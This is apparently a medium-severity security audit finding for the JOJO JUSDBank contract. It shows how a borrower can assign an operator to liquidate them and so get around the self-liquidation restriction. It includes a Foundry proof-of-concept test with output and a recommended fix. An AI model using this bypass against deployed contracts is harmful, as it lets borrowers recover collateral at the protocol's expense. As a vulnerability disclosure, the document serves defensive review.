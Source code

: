 0xbepresent

medium

# A liquidated user can assign an operator, then the operator can liquidates him on behalf his client (the user who assigned him as operator), bypassing the `SELF_LIQUIDATION_NOT_ALLOWED` restriction

## Summary

The liquidated user can assign an operator, then the operator can liquidate on behalf of the user who assigned him as operator. The liquidated user can get his own liquidated collateral.

## Vulnerability Detail

There is a validation by the [isValidLiquidator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L365) function where it checks the liquidated address must not be the liquidator address in the 366 code line. So the liquidated address can not be the liquidator.

```solidity
File: JUSDBank.sol
365:     function isValidLiquidator(address liquidated, address liquidator) internal view {
366:         require(
367:             liquidator != liquidated,
368:             JUSDErrors.SELF_LIQUIDATION_NOT_ALLOWED
369:         );
370:         if(isLiquidatorWhitelistOpen){
371:             require(isLiquidatorWhiteList[liquidator], JUSDErrors.LIQUIDATOR_NOT_IN_THE_WHITELIST);
372:         }
373:     }
```

The problem is that the liquidated address can assign an operator, then the operator can liquidate on behalf the liquidated address.

I created the next test:

1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
2. Alice can be liquidated because the collateral price is updated
3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
4. Alice assigns the operator "Jim".
5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"

```solidity
File: JUSDBankLiquidateCollateral.t.sol
200:     function testSelfLiquidationViaOperator() public {
201:         // Self liquidation via the client's assigned operator
202:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
203:         // 2. Alice can be liquidated because the collateral price is updated
204:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
205:         // 4. Alice assigns the operator "Jim".
206:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
207:         //
208:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
209:         //
210:         mockToken1.transfer(alice, 10e18);
211:         vm.startPrank(alice);
212:         mockToken1.approve(address(jusdBank), 10e18);
213:         jusdBank.deposit(alice, address(mockToken1), 10e18, alice);
214:         jusdBank.borrow(7426e6, alice, false);
215:         vm.stopPrank();
216:         //
217:         // 2. Alice can be liquidated because the collateral price is updated
218:         //
219:         MockChainLink900 eth900 = new MockChainLink900();
220:         JOJOOracleAdaptor jojoOracle900 = new JOJOOracleAdaptor(
221:             address(eth900),//source
222:             20,//decimal correction
223:             86400,//heartBeat
224:             address(usdcPrice)//USDSource
225:         );
226:         jusdBank.updateOracle(address(mockToken1), address(jojoOracle900));
227:         swapContract.addTokenPrice(address(mockToken1), address(jojoOracle900));
228:         FlashLoanLiquidate flashLoanLiquidate = new FlashLoanLiquidate(
229:             address(jusdBank),
230:             address(jusdExchange),
231:             address(USDC),
232:             address(jusd),
233:             insurance
234:         );
235:         bytes memory data = swapContract.getSwapData(
236:             10e18,
237:             address(mockToken1)
238:         );
239:         bytes memory param = abi.encode(
240:             swapContract,//approveTarget
241:             swapContract,//swapTarget
242:             address(alice),//liquidator
243:             data//data
244:         );
245:         vm.startPrank(alice);
246:         bytes memory afterParam = abi.encode(
247:             address(flashLoanLiquidate),
248:             param
249:         );
250:         //
251:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
252:         //
253:         cheats.expectRevert("SELF_LIQUIDATION_NOT_ALLOWED");
254:         jusdBank.liquidate(
255:             alice, // Liquidated
256:             address(mockToken1),  //collateral used
257:             alice, //liquidator
258:             10e18, //10e18 amount
259:             afterParam,
260:             10e18 //expectedPrice
261:         );
262:         //
263:         // 4. Alice assigns the operator "Jim".
264:         //
265:         jusdBank.setOperator(jim, true);
266:         vm.stopPrank();
267:         console.log("Alice balance JUSD before liquidation:", IERC20(jusd).balanceOf(address(alice)));
268:         console.log("Alice balance USDC before liquidation:", IERC20(USDC).balanceOf(address(alice)));
269:         //
270:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
271:         //
272:         // Now Jim can liquidate his client Alice
273:         vm.startPrank(jim);
274:         jusdBank.liquidate(
275:             alice, // Liquidated
276:             address(mockToken1),  // collateral used
277:             jim, // liquidator Jim
278:             10e18, //10e18 amount
279:             afterParam,
280:             10e18 //expectedPrice
281:         );
282:         console.log("");
283:         console.log("Alice balance JUSD after liquidation: ", IERC20(jusd).balanceOf(address(alice)));
284:         console.log("Alice balance USDC after liquidation: ", IERC20(USDC).balanceOf(address(alice)));
285:     }
```

Output:

```bash
Running 1 test for test/Impl/JUSDBankLiquidateCollateral.t.sol:JUSDBankLiquidateCollateralTest
[PASS] testSelfLiquidationViaOperator() (gas: 1782422)
Logs:
  Alice balance JUSD before liquidation: 7426000000
  Alice balance USDC before liquidation: 0
  
  Alice balance JUSD after liquidation:  7426000000
  Alice balance USDC after liquidation:  748888889
```

## Impact

The liquidated user can get his own liquidated collateral, so the [SELF_LIQUIDATION_NOT_ALLOWED](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L366-L369) restriction is bypassed.

## Code Snippet

- The [JUSDBank.liquidate()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L143) function
- The [JUSDBank.isValidLiquidator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L365) function.

## Tool used

Manual review

## Recommendation

If the liquidated address assigns an operator, don't let the operator to liquidates the user who assigned him as operator.